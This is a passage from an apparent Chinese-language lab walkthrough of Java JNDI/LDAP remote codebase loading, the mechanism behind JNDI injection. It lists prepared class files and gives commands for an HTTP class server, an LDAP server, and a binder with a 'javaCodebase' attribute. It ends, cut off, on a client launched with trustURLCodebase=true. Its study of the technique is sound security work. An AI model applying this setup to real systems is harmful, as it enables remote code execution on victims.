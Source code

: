 |       HelloRMIInterface.class
|       JNDILDAPClient.class
|
\---testserverbase
        HelloRMIInterfaceImpl.class

各目录下有哪些.class是精心设计过的，不要多也不要少。

在testserverbase的父目录执行:

python3 -m http.server -b 192.168.65.23 8080

在test0目录执行:

java -jar ldap-server.jar -a -b 192.168.65.23 -p 10389 jndi.ldif

在test1目录执行:

java \
-Djava.naming.factory.initial=com.sun.jndi.ldap.LdapCtxFactory \
-Djava.naming.provider.url=ldap://192.168.65.23:10389/o=anything,dc=evil,dc=com \
JNDILDAPServer cn=any http://192.168.65.23:8080/testserverbase/

LDAP好像没有类似java.rmi.server.codebase这种JVM参数，为了指定codebase，只
能在JNDILDAPServer.java中用"javaCodebase"属性指定。

在test2目录执行:

java \
-Dcom.sun.jndi.ldap.object.trustURLCodebase=true \
-Djava.naming.factory.initial=com.sun.jndi.ldap.LdapCtxFactory \
-Djava.naming.provider.url=ldap://192.168.65.23:10389/o=anything,dc=evil,dc=com \
